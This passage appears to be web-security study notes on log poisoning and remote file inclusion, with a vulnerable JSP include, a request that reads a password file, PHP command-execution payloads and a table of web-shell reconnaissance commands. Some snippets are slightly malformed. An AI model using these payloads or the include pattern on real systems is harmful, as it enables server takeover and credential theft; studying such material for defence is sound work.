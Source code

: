 
### Log Poisoning

In some cases you server might be running on apache server or so, if you can somehow access the log file, you could include a php script and access the file, as php tries to execute the file on rendering/reading.

You can try various methods to do log posioning such as including it as User-Agent, etc

- https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning


## Remote File Inclusion (RFI)
Remote File Inclusion targets web applications that dynamically reference external scripts. The goal of the attacker is to exploit the referencing function in the target application and to upload malware from a remote URL, located on a different domain.

The results of a successful RFI attack can be information theft, a compromised server and a site takeover, resulting in content modification.

example:
A JavaServer Pages page containing the following code:
```java
<jps:include page=”<%=(String)request.getParameter(“ParamName”)%>”> 
```

can be manipulated with the following request: 
```java
Page1.jsp?ParamName=/WEB-INF/DB/password.
```
After the application processes the request, it will reveal the content of the password file.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:
- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

It is possible to pass down various malicious scripts to do RCE. In case of php,
```php
<php system('whoami'); ?>
```

```php
<php exec('whoami'); ?>
```

```php
<php passthru('whoami'); ?>
```

```php
<php shell_exec('whoami'); ?
```

Some useful web shell commands are:

| Command | Use |
|-----------|----|
| ls | Will give you an idea of what files/directories surround you |
| pwd	| Will give you an idea of where in the system you are |
| whoami | Will let you know who you are in the system |
| hostname | The system name and potentially its role in the network |
| uname -a | Will give you some system information like the OS, kernel version, and more  |
| id | If the current user is assigned to any groups |
| ifconfig | Allows you to understand the system's network setup |